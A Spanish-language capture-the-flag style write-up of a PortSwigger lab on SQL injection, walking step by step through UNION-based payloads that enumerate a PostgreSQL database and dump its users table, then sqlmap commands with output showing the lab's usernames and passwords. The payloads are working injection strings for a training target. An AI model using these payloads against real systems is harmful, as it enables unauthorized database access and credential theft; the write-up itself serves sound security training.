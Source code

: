 ```yaml
---
title: SQL injection UNION attack, retrieving multiple values in a single column
description: Laboratorio de Portswigger sobre SQLI
date: 2024-11-15 12:40:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SQLI
tags:
  - Portswigger Labs
  - SQLI (Error Based)
  - SQL injection UNION attack, retrieving multiple values in a single column
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Los `resultados` de la `consulta` se `devuelven` en la `respuesta` de la `aplicación`, por lo que hay que utilizar un `ataque UNION` para recuperar datos de otras tablas. La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el laboratorio, hay que realizar un ataque de `inyección SQL UNION` que recupere todos los nombres de `usuario` y `contraseñas`, y utilizar la información para `iniciar sesión` como el usuario `administrador`

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI-Guide/](https://justice-reaper.github.io/posts/SQLI-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-10/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-10/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-10/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-10/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Gifts'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-10/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Gifts'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`. Esto se debe a que al no existir `tres columnas` nos `arroja` un `fallo`

```
/filter?category=Gifts'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información, en este caso, como no hemos recibido `ningún error`, podemos descartar que la `base` de `datos` usada sea `Oracle` debido a que en `Oracle` debemos añadir `from dual` al final, de lo contrario, nos arrojará un error

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-10/image_6.png)


`Listamos` el `nombre` de todas las `bases` de `datos`

```
/filter?category=Gifts'+union+select+null,string_agg(datname,',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-10/image_7.png)

`Listamos` la `base de datos actual`

```
/filter?category=Gifts'+union+select+null,current_database()--+-+
```

![](/assets/img/SQLI-Lab-10/image_8.png)

`Listamos` los `esquemas` para la `base de datos en uso`

```
/filter?category=Gifts'+union+select+null,schema_name+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-10/image_9.png)

`Listamos` el `nombre` de las `tablas`

```
/filter?category=Gifts'+union+select+null,table_name+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-10/image_10.png)

`Listamos` las `columnas` de la tabla `users`

```
/filter?category=Gifts'+union+select+null,string_agg(column_name,',')+from+information_schema.columns+where+table_name='users'--+-+
```

![](/assets/img/SQLI-Lab-10/image_11.png)

`Listamos` el `contenido` de la columna `username` y `password`

```
/filter?category=Gifts'+union+select+null,string_agg(username||':'||password,',+')+from+users--+-+
```

![](/assets/img/SQLI-Lab-10/image_12.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public --tables --batch --threads 2 
Database: public
[2 tables]
+--------------+
| products     |
| users        |
+--------------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users --columns --batch --threads 2  
Database: public
Table: users
[3 columns]
+-----------------+---------+
| Column          | Type    |
+-----------------+---------+
| email           | varchar |
| password        | varchar |
| username        | varchar |
+-----------------+---------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users -C password,username --dump --batch --threads 2 
Database: public
Table: users
[3 entries]
+----------------------+-----------------+
| password             | username        |
+----------------------+-----------------+
| 77mz52vp06wko24p8cl3 | administrator   |
| aqcaasm9mubsp9ngy3m7 | wiener          |
| 1smn2n4jv1mv1uzv5hqm | carlos          |
+----------------------+-----------------+
```

Nos `logueamos` con las `credenciales` del usuario `administrador`

![](/assets/img/SQLI-Lab-10/image_13.png)
